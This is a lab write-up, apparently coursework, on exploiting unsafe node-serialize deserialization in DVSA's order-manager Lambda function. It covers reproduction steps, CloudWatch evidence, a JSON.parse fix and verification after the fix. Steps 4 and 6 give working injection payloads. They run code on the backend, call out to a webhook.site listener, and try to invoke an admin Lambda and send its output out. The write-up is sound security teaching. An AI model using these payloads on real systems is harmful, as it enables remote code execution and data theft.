




# Lesson 3: Sensitive Information Disclosure (Code Injection)

## 1. Vulnerability Summary

This lesson demonstrates a **Sensitive Information Disclosure** vulnerability caused by unsafe deserialization in the DVSA order processing system.

By injecting malicious JavaScript into the `action` field of an API request, an attacker can execute arbitrary code inside the AWS Lambda function, causing:
- Remote code execution (RCE) inside the Lambda environment
- Unauthorized outbound HTTP requests from the backend
- Potential exposure of sensitive data stored in Amazon S3

The affected component is the `DVSA-ORDER-MANAGER` Lambda function, reachable through the `POST /Stage/order` API Gateway endpoint. The root weakness is that user input is passed directly into an unsafe deserialization function (`node-serialize`) which reconstructs and executes embedded JavaScript functions.

---

## 2. Root Cause

The vulnerability exists because of three combined failures:

- **Unsafe deserialization** — the `node-serialize` library reconstructs and executes any JavaScript function embedded in the `_$$ND_FUNC$$_` format without restriction
- **No input validation** — the `action` field is accepted as-is without checking its type or content
- **No authorization checks** — privileged backend operations can be triggered directly from user-controlled input

### Why the attack works

The `node-serialize` library was designed for serializing objects that include functions. When it encounters the `_$$ND_FUNC$$_` prefix in a string, it wraps the value in a JavaScript `eval()` call. Since this happens inside the Lambda execution environment, the injected code runs with the same IAM permissions as the function itself.

---

## 3. Environment

| Item | Value |
|---|---|
| Application | DVSA |
| AWS Region | `us-east-1` |
| API Endpoint | `POST https://<api-id>.execute-api.us-east-1.amazonaws.com/Stage/order` |
| Lambda Function | `DVSA-ORDER-MANAGER` |
| CloudWatch Log Group | `/aws/lambda/DVSA-ORDER-MANAGER` |
| AWS Services | API Gateway, AWS Lambda, Amazon S3 |
| Tools Used | Postman, Browser DevTools (Chrome), webhook.site, AWS CloudWatch |

---

## 4. Prerequisites

Before starting:

1. Have access to the DVSA application with a valid user account
2. Have Postman installed
3. Generate a unique listener URL at [webhook.site](https://webhook.site) — keep this tab open
4. Have access to CloudWatch Logs in the AWS Console

---

## 5. Step-by-Step Reproduction

### Step 1: Create a Normal Order

1. Open the DVSA application in your browser
2. Add any product to the cart
3. Proceed to checkout to generate a valid session

---

### Step 2: Capture the API Request

1. Open Chrome DevTools (`F12`) → **Network** tab
2. Perform a checkout action
3. Find the `POST /Stage/order` request
4. Copy:
   - The full API endpoint URL
   - The `Authorization` header value (your JWT token)
   - The request body structure

---

### Step 3: Test a Normal Request in Postman

Verify the endpoint is reachable before injecting anything.

**Method:** `POST`  
**URL:** `https://<api-id>.execute-api.us-east-1.amazonaws.com/Stage/order`

**Headers:**
```
Authorization: <your_token>
Content-Type: application/json
```

**Body:**
```json
{
  "action": "get_cart",
  "cart_id": "test"
}
```

Confirm you receive a normal response before proceeding.

---

### Step 4: Send the Code Injection Payload (RCE Test)

Go to [webhook.site](https://webhook.site) and copy your unique URL. Then send the following payload in Postman:

```json
{
  "action": "_$$ND_FUNC$$_function(){require('http').get('http://<your-webhook-id>?test=hello')}",
  "cart_id": "test"
}
```

Replace `<your-webhook-id>` with your actual webhook.site URL.

Click **Send**.

---

### Step 5: Observe Code Execution on Webhook

Switch to your webhook.site tab.

**Expected result:**
- An incoming `GET` request appears
- Query string: `test=hello`
- Source IP originates from AWS infrastructure (Virginia / `us-east-1`)

This confirms the injected JavaScript was executed inside the Lambda function and made a live outbound HTTP request.

**Evidence:**



---

### Step 6: Attempt Privilege Escalation

Now send an advanced payload that tries to load the `aws-sdk` and invoke a privileged Lambda function (`DVSA-ADMIN-GET-RECEIPT`):

```json
{
  "action": "_$$ND_FUNC$$_function(){var aws=require('aws-sdk');var lambda=new aws.Lambda();var p={FunctionName:'DVSA-ADMIN-GET-RECEIPT',InvocationType:'RequestResponse',Payload:JSON.stringify({'year':'2018','month':'12'})};lambda.invoke(p).promise().then(function(d){var h=require('http');h.get('http://<your-webhook-id>?data='+encodeURIComponent(JSON.stringify(d)));});}()",
  "cart_id": "test"
}
```

Click **Send**.

---

### Step 7: Observe the Backend Response

**Expected result:**
- API returns `502 Bad Gateway` or `500 Internal Server Error`
- Response body: `{"message": "Internal server error"}`

This shows the payload reached the Lambda backend and attempted to execute privileged logic, but failed due to a missing dependency in the runtime.

**Evidence:**



---

### Step 8: Check CloudWatch Logs for Execution Proof

In the AWS Console, go to:

**CloudWatch → Log Groups → `/aws/lambda/DVSA-ORDER-MANAGER`**

Look for the latest log stream. You should see:

```
ERROR Invoke Error
{
  "errorType": "Error",
  "errorMessage": "Cannot find module 'aws-sdk'",
  ...
  "stack": [
    "at eval (/.../node-serialize/lib/serialize.js:75:22)"
  ]
}
```

The stack trace confirms the code was evaluated by `node-serialize` and ran inside the Lambda environment before failing.

**Evidence:**



---

### Step 9: Confirm Outbound Communication Attempt

In the same CloudWatch log group, look for an earlier log entry. You should see:

```
ERROR Uncaught Exception
{
  "errorType": "Error",
  "errorMessage": "Client network socket disconnected before secure TLS connection was established",
  "code": "ECONNRESET",
  "host": "webhook.site"
}
```

This confirms the Lambda function attempted to reach `webhook.site` — the injected code triggered a real outbound network connection from the backend.

**Evidence:**



---

## 6. Attack Result Summary (Before Fix)

| What was attempted | Result |
|---|---|
| Outbound HTTP request via `require('http')` | Succeeded — webhook received the request |
| Load `aws-sdk` and invoke admin Lambda | Failed — `aws-sdk` not available in runtime |
| Outbound communication capability | Confirmed — ECONNRESET in CloudWatch |

Code execution inside Lambda is confirmed. Full data exfiltration was limited by the runtime environment, but the attack surface is real.

---

## 7. Fix Strategy

The fix must be applied inside the `DVSA-ORDER-MANAGER` Lambda function:

- **Replace unsafe deserialization** — remove `node-serialize` and use `JSON.parse()` instead
- **Validate input types** — reject any input where `action` is not a plain string
- **Block function payloads** — explicitly reject any value containing `_$$ND_FUNC$$_`
- **Add authorization checks** — ensure privileged operations cannot be triggered by unauthenticated or unprivileged input
- **Apply least-privilege IAM** — restrict the Lambda execution role to only the permissions it actually needs

---

## 8. Code / Config Changes

**Location:** Lambda function `DVSA-ORDER-MANAGER` — input handling logic

**Before:**

```javascript
const serialize = require('node-serialize');
let obj = serialize.unserialize(userInput);
```

**After:**

```javascript
let obj = JSON.parse(userInput);
```

**Additional validation added:**

```javascript
if (typeof obj.action !== 'string' || obj.action.includes('_$$ND_FUNC$$_')) {
    throw new Error("Invalid input");
}
```

**Summary of all changes:**
- Removed `node-serialize` dependency entirely
- Replaced with `JSON.parse()` — treats input as data only, never as executable code
- Added type check and blocklist check on the `action` field
- Added authorization checks before invoking any privileged operations
- Restricted IAM role permissions (removed unnecessary S3 and Lambda invoke access)

---

## 9. Verification After Fix

Send the same injection payload again:

```json
{
  "action": "_$$ND_FUNC$$_function(){require('http').get('http://<your-webhook-id>?test=hello')}",
  "cart_id": "test"
}
```

**Expected result after fix:**
- No incoming request appears on webhook.site
- No code execution visible in CloudWatch
- API returns a safe error response or processes input normally

**Normal order flow:**
- Regular order requests continue to work correctly
- The fix does not break legitimate functionality

---

## 10. Security Analysis

### Intended Logic

Under normal conditions, a user submits an order through the frontend. The expected flow:

```
Browser → API Gateway → Lambda (DVSA-ORDER-MANAGER) → DynamoDB (order data)
                                                      → S3 (receipt storage)
```

**Security rules the system must enforce:**
- User input must never be executed as code
- No privileged backend function should be triggerable by user input alone
- No external requests should be initiated as a result of untrusted input

---

### Table 1 — Intended vs. Observed Behavior

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior Evidence | Exploit Behavior Evidence |
|---|---|---|---|---|
| Sensitive Information Disclosure (Code Injection) | Input must not be executed as code; no unauthorized backend actions must be triggered by user input | Postman requests, webhook.site logs, CloudWatch logs (`/aws/lambda/DVSA-ORDER-MANAGER`) | Normal order request processed without any external calls or errors | Injected payload triggered outbound request to webhook.site (`step5_webhook_rce.png`); CloudWatch confirms Lambda evaluated the payload (`step8_aws_sdk_error.png`, `step9_econnreset.png`) |

---

### Table 2 — Deviation Analysis and Fix

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix Applied | Post-Fix Verification | Latency |
|---|---|---|---|---|---|
| Sensitive Information Disclosure (Code Injection) | The system executed user-supplied input as JavaScript code inside the Lambda runtime, violating the rule that input must be treated as data only. This allowed an attacker to force outbound requests and attempt invocation of privileged admin functions. | Intentional Misuse / Security-Relevant Abuse | Removed `node-serialize`; replaced with `JSON.parse()`; added input validation blocking `_$$ND_FUNC$$_` payloads; enforced authorization checks | No webhook request received after fix; no execution visible in CloudWatch; normal orders still processed correctly | Not measured |

---

## 11. Lessons Learned

The core mistake was using a library (`node-serialize`) that was designed to serialize executable code, then applying it to user-controlled input. This is a direct violation of the principle that **all user input must be treated as untrusted data**.

In a serverless environment, this vulnerability is especially dangerous because there is no traditional server boundary — the Lambda function is directly reachable via a public API endpoint. A single function compromise can expose the function's IAM role, its access to S3, DynamoDB, and other Lambda functions, and the ability to make outbound requests from the cloud environment.

The fix is straightforward: never use deserialization libraries that reconstruct executable functions from user input. Use `JSON.parse()` and validate strictly.

---

## Repository Structure

```
lesson3_sensitive_data_exposure/
│
├── README.md                        <- This file
└── evidence/
    ├── step5_webhook_rce.png        <- Webhook receives outbound request from Lambda (RCE confirmed)
    ├── step7_postman_response.png   <- Postman shows 502 Bad Gateway from privileged payload
    ├── step8_aws_sdk_error.png      <- CloudWatch: Cannot find module 'aws-sdk' (execution confirmed)
    └── step9_econnreset.png         <- CloudWatch: ECONNRESET to webhook.site (outbound comm confirmed)
```